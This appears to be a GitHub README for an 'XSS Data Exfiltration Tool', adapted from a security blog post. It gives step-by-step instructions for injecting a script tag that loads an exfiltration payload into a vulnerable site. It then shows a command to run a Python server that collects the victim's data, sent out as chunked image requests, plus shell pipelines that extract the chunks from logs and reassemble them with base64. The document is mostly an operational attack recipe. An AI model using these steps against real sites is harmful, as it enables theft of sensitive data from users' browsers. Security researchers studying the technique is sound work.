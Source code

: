 # XSS-Data-Exfil-Kit
XSS Data Exfiltration Tool

Edit of code from this post -  https://www.trustedsec.com/blog/simple-data-exfiltration-through-xss/

This code demonstrates data exfiltration through an XSS (Cross-Site Scripting) vulnerability. The XSS payload is designed to extract sensitive data from the victim's web browser and divide it into manageable chunks. These chunks are then sent out as image requests, with the data embedded in the image filenames. The process also includes example commands and a Python script for reconstructing the original data.

For a detailed walkthrough with screenshots, please refer to our blog post at this link: Simple Data Exfiltration Through XSS.

To make the payload target specific sensitive data accessible to the victim, you can customize the "exfilPayload.js" file.

Here are the steps involved:

<script src="http://127.0.0.1/exfilPayload.js"></script>

Start a Python HTTP server in the directory where "exfilPayload.js" is located:

bash
python -m SimpleHTTPServer 80

"exfilPayload.js" will send the data chunks to the same server.

Collect these requests into a text file and clean them up:

bash
grep '/exfil/' exfilledData.txt | awk -F'/exfil/' '{print $2}' | awk -F'/' '{print $1 " " $2}' | awk -F'.jpg' '{print $1}' | while read i; do echo $i ; done > exfilledDataCleaned.txt


Use the provided Python script to reconstruct the original data.

Finally, assemble the data chunks together using:

bash    
for file in ./{0..225}.chunk; do cat $file | base64 -d; done > restoredSuperSecretData.html

                                        


                                               
